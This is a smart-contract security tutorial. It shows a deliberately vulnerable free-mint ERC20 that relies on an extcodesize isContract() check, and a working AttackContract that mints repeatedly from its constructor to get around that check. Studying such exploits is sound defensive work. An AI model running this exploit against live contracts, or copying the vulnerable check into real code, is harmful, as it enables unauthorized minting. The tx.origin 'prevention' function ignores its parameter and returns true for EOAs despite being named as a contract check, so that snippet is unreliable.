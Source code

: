 ```yaml
---
title: Bypass Contract Check
displayed_sidebar: generalSidebar
---
```


Many free-mint projects utilize the `isContract()` method to limit access to external accounts (EOAs) and restrict contract addresses. This method leverages `extcodesize` to determine the runtime `bytecode` length of an address. If it is greater than zero, the address is deemed a contract; otherwise, it is considered an EOA.

```solidity
    // Using extcodesize to check if an address is a contract
    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

However, a vulnerability exists because, during contract creation, the runtime `bytecode` has not yet been stored at the address, so the `bytecode` length is zero. If we place our logic within the constructor, we can bypass the `isContract()` check.

**Example of the Vulnerability**

In the example below, `FreemintERC20` contract uses the `checkContract()` function to prevent contract addresses from executing its `mintTokens()` function, which is intended to prevent automated bulk minting. Each call to `mintTokens()` mints 100 tokens.

```solidity
// Using extcodesize to check if an address is a contract
contract FreemintERC20 is ERC20 {
    constructor() ERC20("Token", "TKN") {}

    function checkContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function can only be called by non-contract addresses (vulnerable)
    function mintTokens() public {
        require(!checkContract(msg.sender), "Contracts are not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We create an attack contract that calls `mintTokens()` multiple times during its constructor to mint `1000` tokens:

```solidity
// Exploiting constructor characteristics for attacks
contract AttackContract {
    bool public detectedAsContract;
    address public targetContract;

    // During contract creation, extcodesize is 0, thus bypassing isContract() checks.
    constructor(address addr) {
        targetContract = addr;
        detectedAsContract = FreemintERC20(addr).checkContract(address(this));
        for(uint i; i < 10; i++){
            FreemintERC20(addr).mintTokens();
        }
    }

    // After contract deployment, extcodesize > 0, isContract() will detect
    function tryMint() external {
        FreemintERC20(targetContract).mintTokens();
    }
}
```

In this contract, calling `mintTokens()` within the constructor will bypass the `isContract()` check successfully and mint the tokens. The state variable `detectedAsContract` will be set to `false` in the constructor. After deployment, the `runtime bytecode` is stored at the contract address, and `extcodesize > 0`, thus `checkContract()` will successfully block the minting when calling `mintTokens()`.

**Prevention Methods**

We can use `(tx.origin == msg.sender)` to determine if the caller is a contract. If the caller is an EOA, then `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```solidity
function realContractCheck(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```